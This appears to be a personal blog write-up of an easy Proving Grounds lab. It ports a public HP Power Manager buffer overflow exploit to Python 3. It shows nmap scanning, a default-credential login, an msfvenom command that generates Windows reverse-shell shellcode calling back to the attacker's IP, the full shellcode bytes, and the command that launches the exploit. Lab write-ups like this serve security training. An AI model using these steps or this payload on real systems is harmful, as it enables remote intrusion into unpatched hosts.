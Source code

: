 ```yaml
---
title: "[Easy] - Proving Grounds - Kevin"
date: 2024-10-19T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-kevin/
categories: Labs
tags: [writeup]
---
```

Welcome to our latest lab session in Proving Grounds! In this post, we'll demonstrate how to adapt an existing buffer overflow exploit for an older version of Windows to work on a newer release. This lab is considered to be a beginner lab as only porting existing exploit code is required.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.233.45 -oA ./fulltcp
```

The port scan suggests that we are likely dealing with a Windows machine, as indicated by the presence of commonly open ports that are characteristic of Windows environments. For instance, port 445/tcp is associated with the Server Message Block (SMB) protocol, which is used for file sharing and network resource access. Additionally, port 3389/tcp is used for Remote Desktop Protocol (RDP), allowing users to connect remotely to a Windows system. The scan also reveals other relevant ports, such as 135/tcp and 139/tcp, which are used for various Windows services, including RPC and NetBIOS. 

![image](https://github.com/user-attachments/assets/31ae973c-0f97-49b3-9a32-92f5729aba23)

The machine also hosts a web application, which presents a valuable opportunity for further exploration. In cases like this, especially in a lab environment, starting with the web application is often a prudent approach, as it can yield interesting findings. By investigating the web server, we may uncover useful information that could shed light on the underlying system architecture and functionality. This could include identifying technologies in use, potential vulnerabilities, or even configuration details that help us better understand the overall environment we're dealing with.

The page displays a login screen for HP Power Manager, which, upon first glance, appears somewhat dated in its design. The user interface lacks modern aesthetics and functionality, giving it an older feel that may suggest it hasn’t been updated in a while.

![image](https://github.com/user-attachments/assets/3c50b0f7-34e1-4640-a7e1-e0b66eb2b138)

Using the default credentials of admin/admin grants us access to the interface, revealing some insights into the application behind it. 

![image](https://github.com/user-attachments/assets/438a2576-5076-45cf-9668-73444f8b71ac)

Let’s take a look at Searchsploit to check for any vulnerabilities related to HP Power Manager. By searching the database, we can identify known exploits, security issues, or weaknesses associated with this application.

![image](https://github.com/user-attachments/assets/0e3e5ca1-bc00-49fe-aa68-9ad0112b5fb1)

It appears that the application we are dealing with is vulnerable to a buffer overflow vulnerability. This type of vulnerability can allow an attacker to manipulate the application’s memory, potentially leading to arbitrary code execution or denial of service.

By utilizing Searchsploit with the -w flag, we can pinpoint the URL (https://www.exploit-db.com/exploits/10099) that provides access to the exploit code associated with this vulnerability. This will enable us to review the specific details of the exploit, including its mechanics and any prerequisites for successful execution.

The provided exploit code targets a buffer overflow vulnerability in HP Power Manager and has been specifically tested on Windows 2003 Enterprise SP2 English and Windows XP SP2 English. We can identify that the code is written in Python 2 due to several key features:

1. **Print Statement**: The use of `print` statements without parentheses (e.g., `print "HP Power Manager Administration Universal Buffer Overflow Exploit"`) is characteristic of Python 2 syntax. In Python 3, `print` is a function and requires parentheses.

2. **String Handling**: The code employs string formatting and concatenation in a manner typical of Python 2. For instance, the `%` operator is used for string interpolation, which is less common in modern Python 3 code, where f-strings or the `format()` method are preferred.

The exploit works by sending a specially crafted HTTP POST request to the application, attempting to manipulate its memory by overwriting the return address with a location that can execute arbitrary code. The payload is constructed in the `evil` variable, which includes the necessary HTTP headers and the crafted buffer. As noted in the comments, this exploit demonstrates the significant security risks associated with outdated software, especially when default credentials remain in use.

I frequently search for new code to see if anyone has already taken the initiative to convert older projects to newer versions, such as Python 3. This proactive approach not only saves me time but also ensures that I can leverage the latest features and improvements in the language.

![image](https://github.com/user-attachments/assets/c0b78fbe-5169-497b-838d-888ec2f3f744)

I will use this Python 3 code (https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/blob/master/hp_pm_exploit_p3.py) example as a starting point and explore how we can port the existing code to ensure it works effectively.


## Exploit

We will download the exploit code and open it with a text editor of our choice. 

```bash
wget https://raw.githubusercontent.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/refs/heads/master/hp_pm_exploit_p3.py
nano hp_pm_exploit_p3.py
```

With buffer overflows often the command to generate the shellcode is added as a comment. This is also the case for our exploit.

![image](https://github.com/user-attachments/assets/434e1fd7-f86e-4d02-851e-b0eb822f7c1f)

We will use the msfvenom command to generate our own shellcode that will work with the buffer overflow. It’s crucial to remember to change the LHOST value to your own IP address to ensure the shellcode can establish a connection back to our machine. For the LPORT, we will select 443/tcp, as this port is commonly permitted on firewalls.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.166 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```

This outputs the following:

```bash
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of python file: 1722 bytes
buf =  b""
buf += b"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
buf += b"\x81\x76\x0e\xd2\x9f\xb3\xc4\x83\xee\xfc\xe2\xf4"
buf += b"\x2e\x77\x31\xc4\xd2\x9f\xd3\x4d\x37\xae\x73\xa0"
buf += b"\x59\xcf\x83\x4f\x80\x93\x38\x96\xc6\x14\xc1\xec"
buf += b"\xdd\x28\xf9\xe2\xe3\x60\x1f\xf8\xb3\xe3\xb1\xe8"
buf += b"\xf2\x5e\x7c\xc9\xd3\x58\x51\x36\x80\xc8\x38\x96"
buf += b"\xc2\x14\xf9\xf8\x59\xd3\xa2\xbc\x31\xd7\xb2\x15"
buf += b"\x83\x14\xea\xe4\xd3\x4c\x38\x8d\xca\x7c\x89\x8d"
buf += b"\x59\xab\x38\xc5\x04\xae\x4c\x68\x13\x50\xbe\xc5"
buf += b"\x15\xa7\x53\xb1\x24\x9c\xce\x3c\xe9\xe2\x97\xb1"
buf += b"\x36\xc7\x38\x9c\xf6\x9e\x60\xa2\x59\x93\xf8\x4f"
buf += b"\x8a\x83\xb2\x17\x59\x9b\x38\xc5\x02\x16\xf7\xe0"
buf += b"\xf6\xc4\xe8\xa5\x8b\xc5\xe2\x3b\x32\xc0\xec\x9e"
buf += b"\x59\x8d\x58\x49\x8f\xf7\x80\xf6\xd2\x9f\xdb\xb3"
buf += b"\xa1\xad\xec\x90\xba\xd3\xc4\xe2\xd5\x60\x66\x7c"
buf += b"\x42\x9e\xb3\xc4\xfb\x5b\xe7\x94\xba\xb6\x33\xaf"
buf += b"\xd2\x60\x66\x94\x82\xcf\xe3\x84\x82\xdf\xe3\xac"
buf += b"\x38\x90\x6c\x24\x2d\x4a\x24\xae\xd7\xf7\x73\x6c"
buf += b"\xff\x39\xdb\xc6\xd2\x9e\x08\x4d\x34\xf5\xa3\x92"
buf += b"\x85\xf7\x2a\x61\xa6\xfe\x4c\x11\x57\x5f\xc7\xc8"
buf += b"\x2d\xd1\xbb\xb1\x3e\xf7\x43\x71\x70\xc9\x4c\x11"
buf += b"\xba\xfc\xde\xa0\xd2\x16\x50\x93\x85\xc8\x82\x32"
buf += b"\xb8\x8d\xea\x92\x30\x62\xd5\x03\x96\xbb\x8f\xc5"
buf += b"\xd3\x12\xf7\xe0\xc2\x59\xb3\x80\x86\xcf\xe5\x92"
buf += b"\x84\xd9\xe5\x8a\x84\xc9\xe0\x92\xba\xe6\x7f\xfb"
buf += b"\x54\x60\x66\x4d\x32\xd1\xe5\x82\x2d\xaf\xdb\xcc"
buf += b"\x55\x82\xd3\x3b\x07\x24\x53\xd9\xf8\x95\xdb\x62"
buf += b"\x47\x22\x2e\x3b\x07\xa3\xb5\xb8\xd8\x1f\x48\x24"
buf += b"\xa7\x9a\x08\x83\xc1\xed\xdc\xae\xd2\xcc\x4c\x11"
```

In the example code the 'b' in front of every line is not used. Lets remove it for our payload as well.

![image](https://github.com/user-attachments/assets/91e62cb7-0681-4d8e-ada9-6df08e881177)

This results in the following code pasted in to the exploit.

![image](https://github.com/user-attachments/assets/c713de71-8fec-49ad-91e0-1fb5634a39dc)

We save our exploit and are ready to try it on the server. We will look at the script to see how to interact with it. In this case there is a help menu available.

![image](https://github.com/user-attachments/assets/c90c6b4b-0440-4021-908b-9cbff638ac5b)

It seems that the tool automatically starts up a listener.

![image](https://github.com/user-attachments/assets/f3277c34-c09b-4327-a405-460db7a25461)

Time for action.

```bash
python3 hp_pm_exploit_p3.py 192.168.233.45 80 443
```

The exploit works!

![image](https://github.com/user-attachments/assets/c7d3009a-b583-490f-a557-604587989408)

## Credits

Thank you for taking the time to read. My goal is to document my findings for personal reference and to share insights into my thought processes, helping those who are new to the field learn and grow. I believe that providing this additional context can be beneficial for others as they navigate their own journeys in this domain.
